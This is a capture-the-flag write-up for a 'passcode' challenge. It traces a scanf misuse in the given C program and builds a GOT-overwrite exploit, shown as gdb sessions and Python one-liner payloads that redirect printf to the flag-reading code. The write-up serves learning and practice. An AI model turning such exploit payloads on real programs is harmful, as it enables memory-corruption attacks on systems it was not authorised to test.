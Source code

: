 So as usual first thing is I looked at the code supplied 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==123456 && passcode2==13371337){
                printf("Login OK!\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.1 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

I looked at the comment `// ha! mommy told me that 32bit is vulnerable to bruteforcing :)` and tried to make since of it since I already had the password.
I decided to ignore it and thought it was a red herring.

First thing I tried was to just run it with the inputs as given to me (I knew it wouldn't work but thought it would foolish to not try it)
```
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : O
Welcome O!
enter passcode1 : 123456
enter passcode2 : 13371337
Segmentation fault (core dumped)
```

Next I tried to dig deeper into the code and understood that it was not writing the input to the address of passcode1 & passcode2 but addressed their values as memory addresses.
```c
        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);
```

So now I wanted to see where I could edit them and maybe write the values that I want them to contain.
The only place I had an input was in the `welcome` function. It was also the obvious place since there was no way it was there for no reason.

I thought that maybe I could overwrite the passcodes using the `name` buffer in the `welcome` function. but I could only overwrite `passcode1` and `passcode2` was out of range.

| var       | addr       | distance from &name |
| --------- | ---------- | ------------------- |
| passcode1 | 0xff81d158 | 96                  |
| passcode2 | 0xff81d15c | 100                 |
| name      | 0xff81d0f8 | 0                   |

I wanted to see if I could really overwrite `passcode1` so I ran the program in gdb with `name` set to `b'A' * 100`

```bash
pwndbg> x/4x $ebp - 0x10
0xffd27788:     0x41414141      0xd008ff00      0x0804c000      0xffd27874
```


I knew that I could overwrite `passcode1`. Now the only question was what should I put in it?
At first I thought putting the address of `passcode2` but then I won't be able to edit `passcode1`.
Then I thought about editing the code to maybe skip the `cmp` so I tested if I could edit that memory chunk using GDB

```bash
 0x8049000  0x804a000 r-xp     1000   1000 passcode
```

I could only read and execute.

I thought about editing the return address but there were two problems with that:
1. I would have to ruin the stack canary and this would stop the program
2. the function did not return if the login failed, it would just run `exit(0)`.

I tested if all the bytes of name are overridden because I thought that maybe I could use name to make the passcodes somehow be equal to that.
I saw that after inputting all of the passcodes and right before the `cmp` I still had 4 bytes of the name untouched.

```bash
pwndbg> x/s 0xff949d68
0xff949d68:     "Hell"
```

But it is also noticeable that the address changed meaning it does not keep the same memory addresses each time so that was not a real option since I did not know in advance the addresses of the variables.
To validate this I ran the program again in GDB and searched for the address of name again.

| run | name address |
| --- | ------------ |
| #1  | 0xff81d0f8   |
| #2  | 0xff949d68   |
| #3  | 0xffdb7208   |

Now I was really stuck and had to figure out another way to know what to put in `passcode1`.
Since I was stuck I started building a mind map to work with a more organized chart of ideas.
You can view the map using [xmind](https://xmind.com) and view the map of this CTF -> [passcode](./Mind%20Maps/passcode.xmind). 
*I recommend viewing this map only if you are interested in the different ideas I had at this point.*

One of the ideas was to inject lines of code. To know if there was a way to do this I opened up pwngdb again and searched for the permissions of the code segment.
```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
     Start        End Perm     Size Offset File (set vmmap_prefer_relpaths on)
 0x8048000  0x8049000 r--p     1000      0 passcode
 0x8049000  0x804a000 r-xp     1000   1000 passcode
 0x804a000  0x804b000 r--p     1000   2000 passcode
 0x804b000  0x804c000 r--p     1000   2000 passcode
 0x804c000  0x804d000 rw-p     1000   3000 passcode
```
The last memory place is editable. I only had to see what this place points at.
but then I could see that it's not the code segment but it is actually the data segment so I went to see what global variables I had that might be saved in the data segment.

In the data segment there is something called the GOT (Global Offset Table). This contains the reference to the location of functions like `scanf`, `printf` and `fflush`. My idea was to change the reference table to point at the inner block of the if statement.

So first I will give `name` 96 chars of random placeholders and then `4 bytes` of the printf GOT reference addr. Then I can put a reference to the inner block of the if statement in the scanf of `passcode1`.
```bash
pwndbg> search "setregid"
Searching for byte: b'setregid'
passcode        0x8048364 'setregid'
libc.so.6       0xf7d2f7d6 'setregid'
```

| name                     | address   |
| ------------------------ | --------- |
| GOT printf reference     | 0x804c010 |
| Inner If statement block | 0x8048364 |
**Now all that was left to do was to build the payload and run!**

Getting decimal view of the addresses
```python
In [1]: int(0x804c010)
Out[1]: 134529040

In [2]: int(0x8048364)
Out[2]: 134513508
```

I had a problem with the payload that I was messing with for a few hours in total and I could not figure out why it wasn't getting the input to passcode1. passcode1 did have the correct address in it and it did point to the correct place but for some reason it was not accepting the input for the `printf` reference...

The payloads I have tried:
```bash
r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08' + b'\n' + b'\x64\x83\x04\x08')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\n\x64\x83\x04\x08\n')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\x64\x83\x04\x08')")

r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08\x64\x83\x04\x08\n')")
```

results for all of the payloads above
```bash
pwndbg> x/x $ebp - 0x10
0xffefdd48:     0x0804c010
pwndbg> x/x 0x0804c010
0x804c010 <printf@got.plt>:     0xf7d91a90
```

Then after consulting with someone I know he told me that the second scanf is expecting a decimal and not a string that I am giving him. so I just needed to modify it to give the actuall decimal number and not bytes

New payload:
```bash
r < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08' + b'134513508')")
```

so did again did not work. So after some debugging I remembered that I am jumping to `setregid` function 
```assembly
call setregid
```

this meant that I was not giving it the correct inputs so I opened the disassembly in gdb and found the correct address.

the address that I found was right before the `getegid` call and right after the `puts` call `0x804929e`

```python
In [1]: int(0x804929e)
Out[1]: 134517406
```

Final Run
```bash
passcode@ubuntu:~$ ./passcode < <(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 96 + b'\x10\xc0\x04\x08' + b'134517406')")
Toddler's Secure Login System 1.1 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
[flag🤫]
enter passcode1 : Now I can safely trust you that you have credential :)
```

This challenge was the most difficult challenge that I've done so far. It required paying attention to a lot of small specifics and also if you did not know about the GOT before that is an extra challenge to analyze the data segment on the fly. In conclusion this was a really fun challenge that I learned a lot from and recommend to anyone thinking about doing it to go ahead and just dive in.